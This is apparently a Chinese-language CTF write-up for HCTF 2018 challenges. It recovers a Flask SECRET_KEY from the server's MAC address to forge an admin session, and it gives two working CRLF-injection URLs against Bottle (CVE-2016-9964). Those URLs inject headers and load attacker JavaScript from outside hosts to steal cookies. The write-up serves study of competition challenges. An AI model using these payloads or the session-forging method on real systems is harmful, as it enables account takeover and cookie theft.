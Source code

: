 读取`templates/index.html`:

```{% if user == 'admin' %}
{% if user == 'admin' %}
Your flag: <br>
{{ flag  }}
{% else %}
```

漏洞：

```
random.seed(uuid.getnode())
app = Flask(__name__)
app.config['SECRET_KEY'] = str(random.random()*100)
```

这里的`uuid.getnode()`就是获取固定的mac地址。

读取网卡信息`/proc/net/dev`：

读取mac地址`/sys/class/net/eth0/address`:

```
12:34:3e:14:7c:62 

>>> 0x12343e147c62
20015589129314
```

得到SECRET_KEY之后，即可伪造session.

## bottle

参考链接:`https://www.leavesongs.com/PENETRATION/bottle-crlf-cve-2016-9964.html`

bottle的crlf注入。直接crlf首先注入一个CSP头部覆盖调已有的，然后注入xss向量即可，中间还需要注一个content-type头部，不然xss向量不解析。网上找到p牛的文章中的exp改一下就行了，exp如下：

`http://bottle.2018.hctf.io/path?path=http://bottle.2018.hctf.io:0/%250aContent-Type:text/html%250aContent-Security-Policy:script-src%2520*%250a%250a%3Cscript/src=http://zzm.cat/1.js%3E%3C/script%3E>`

刚开始的时候，CSP是在响应包的上面的，需要想办法绕过CSP。最后伟哥告诉我那个hint1不是机器人访问的crontab，是bottle这个框架重启的crontab。bottle这个框架好像有一个特性，每次重启的时候可以bypass掉CSP。但是出题人好像第二天发现这个bypass思路自己都复现不了，所以就把CSP设置到响应包下面了。 接下来就简单了，只需要绕过302跳转就可以打到cookie。因为302的时候不会xss。利用 < 80端口可以绕过302跳转。可以在浏览器手动试一下。 80端口的时候:

![](/assets/hctf/t019bc9c8888d4e662f.png)

22端口: 

![](/assets/hctf/t01c3231280f50efbe4.png)

payload:

```
http://bottle.2018.hctf.io/path?path=http://bottle.2018.hctf.io:22/user%0d%0aX-XSS-Protection:0%0d%0aContent-Length:300%0d%0a%0d%0a%3Cscript%20src%3dhttp://139.199.27.197:7000/1.js%3E%3C/script%3E
```
